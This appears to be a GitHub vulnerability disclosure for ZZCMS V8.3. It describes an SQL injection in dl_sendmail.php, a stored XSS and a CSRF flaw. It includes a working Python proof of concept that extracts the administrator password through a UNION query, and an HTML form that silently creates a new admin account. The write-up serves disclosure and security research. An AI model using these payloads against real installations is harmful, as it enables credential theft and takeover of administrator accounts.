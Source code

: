 # ZZCMS V8.3

## 1. SQL Injection
 
#### dl/dl_sendmail.php
![image](https://github.com/AvaterXXX/ZZCMS/blob/master/1.png)
According to the code, the SQL statement is submitted as a post, and there is no filtering in the middle, so there is SQL injection here.

#### POC：
```
import requests

url = "http://10.10.10.39:8080/dl/dl_sendmail.php"
cookies = {'UserName':'admin','PassWord':'21232f29*****801fc3'}
data = { 'sql':'select email from zzcms_dl where id=-1 union select pass from zzcms_admin #'}

q = requests.post(url,data,cookies=cookies)
q.encoding = 'utf-8'
print q.text
```

You can see that you have successfully obtained the administrator password.
![image](https://github.com/AvaterXXX/ZZCMS/blob/master/2.png)


## 2. Stored XSS

#### /user/manage.php
![image](https://github.com/AvaterXXX/ZZCMS/blob/master/3.png)
Keep going
#### /zt/show.php
![image](https://github.com/AvaterXXX/ZZCMS/blob/master/4.png)
Stripfxg function is to restore the materialization. As you can see, there is a storage XSS vulnerability.

#### Enter XSS
![image](https://github.com/AvaterXXX/ZZCMS/blob/master/5.png)
![image](https://github.com/AvaterXXX/ZZCMS/blob/master/6.png)


## 3. CSRF
After the administrator logged in, open the following  page
poc：
```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://10.10.10.39:8080/admin/adminadd.php?action=add" method="POST">
      <input type="hidden" name="groupid" value="1" />
      <input type="hidden" name="admins" value="123" />
      <input type="hidden" name="passs" value="123" />
      <input type="hidden" name="passs2" value="123" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```





#### Vulnerabilities are owned by Patec HanGuang Lab
